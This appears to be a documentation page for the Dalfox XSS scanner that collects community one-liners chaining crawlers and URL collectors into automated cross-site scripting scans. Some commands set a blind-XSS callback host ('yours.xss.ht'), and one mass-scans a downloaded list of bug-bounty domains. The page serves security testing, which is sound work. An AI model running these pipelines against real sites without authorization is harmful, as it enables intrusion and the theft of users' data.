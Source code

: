 ```yaml
---
title: One-Liner
redirect_from: /docs/tips/oneliner/
nav_order: 2
toc: true
layout: page
---
```


# Community One-Liners

* Scanning XSS from host / from [@cihanmehmet in awesome-oneliner-bugbounty](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```
* [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
* [Find XSS and Blind XSS, and send every request to burpsuite for more manual testing
](https://twitter.com/Alra3ees/status/1407058456323014659)
```bash
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b 'YOURS.xss.ht' --follow-redirects --proxy http://127.0.0.1:8080
```
* [dalfox scan to bugbounty targets / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#dalfox-scan-to-bugbounty-targets-1)
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
```
* [Recon subdomains and gau to search vuls DalFox / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#recon-subdomains-and-gau-to-search-vuls-dalfox)
```bash
assetfinder testphp.vulnweb.com | gau |  dalfox pipe
```
